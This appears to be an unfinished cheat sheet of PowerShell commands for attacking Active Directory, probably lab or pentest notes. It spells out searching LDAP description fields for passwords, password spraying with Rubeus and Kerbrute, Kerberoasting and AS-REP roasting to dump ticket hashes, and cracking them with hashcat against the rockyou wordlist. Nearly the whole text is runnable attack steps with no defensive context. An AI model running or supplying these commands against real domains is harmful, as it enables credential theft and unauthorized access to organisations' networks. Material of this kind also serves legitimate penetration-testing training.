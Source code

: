 # 1. Sensitive Data in LDAP

## Start ADExplorer and search through the AD for sensitive information
PS> adexplorer.exe

ADexplorer> search user description field contains pw, pwd, password, pass

## Enumerate the AD with ADRecon
PS> .\ADRecon.ps1

PS> .\ADRecon.ps1 -GenExcel .\ADRecon-Report-timestamp

TODO: wget Excel file since Excel will not be installed

# 2. Password Spraying
## Identify the standard domain password and start a password spray attack
### Use Rubeus
PS> .\Rubeus.exe brute /password:Start123!

### Use Kerbrute
PS> Invoke-WebRequest "https://github.com/ropnop/kerbrute/releases/download/v1.0.3/kerbrute_windows_amd64.exe" -OutFile ".\kerbrute.exe"

PS> Import-Module .\PowerView.ps1

PS> (Get-NetUser | select samAccountName).samAccountName > users.txt

PS> .\kerbrute.exe passwordspray --domain contoso.azure .\users.txt Start123!

ToDo error

# 3. Kerberoasting
## Identify Kerberoastable users
### PowerView
PS> Import-Module .\PowerView.ps1

PS> Get-NetUser | Where-Object {$_.servicePrincipalName} | fl

PS> Get-NetUser -SPN | ft serviceprincipalname, samaccountname, cn, pwdlastset 

### PowerView-Dev
PS> Import-Module .\PowerView-dev.ps1

PS> Get-DomainUser | Where-Object {$_.servicePrincipalName} | fl

PS> Get-DomainUser -SPN | ft serviceprincipalname, samaccountname, cn, pwdlastset 

### Invoke-Kerberoast
PS> Import-Module .\Invoke-Kerberoast.ps1

PS> Invoke-Kerberoast

### Rubeus
PS> .\Rubeus.exe kerberoast

## Get TGS Kerberos Tickets
### PowerView-Dev
PS> Import-Module .\PowerView-dev.ps1

Get-DomainUser -SPN | Get-DomainSPNTicket -OutputFormat Hashcat | % { $_.Hash } | Out-File -Encoding ASCII kerberoasted.txt

### Invoke-Kerberoast
PS> Import-Module .\Invoke-Kerberoast.ps1

PS> Invoke-Kerberoast | % { $_.Hash } | Out-File -Encoding ASCII kerberoasted.txt

### Rubeus
PS> .\Rubeus.exe kerberoast /outfile:kerberoasted.txt

## Crack TGS tickets
PS> hashcat -a 0 -m 13100 kerberoasted.txt /usr/share/wordlists/rockyou.txt

# 3. Kerberoasting
## Identify AS-REP roastable users
### PowerView-Dev
PS> Get-DomainUser -PreauthNotRequired | ft samaccountname, pwdlastset 

PS> Get-DomainUser -UACFilter DONT_REQ_PREAUTH,NOT_PASSWORD_EXPIRED | ft samaccountname, pwdlastset

### Rubeus
PS> .\Rubeus.exe asreproast

### Invoke-ASREPRoast
PS> Import-Module .\Invoke-ASREPRoast.ps1

PS> Invoke-ASREPRoast

## ASREPRoasting
### Rubeus
PS> .\Rubeus.exe asreproast /format:hashcat /outfile:asrephashes.txt

### Invoke-ASREPRoast
PS> Invoke-ASREPRoast | % { $_.Hash } | Out-File -Encoding ASCII asrephashes.txt

## Cracking AS-REP hash with Hashcat
PS> hashcat -a 0 -m 18200 asrephashes.txt /usr/share/wordlists/rockyou.txt
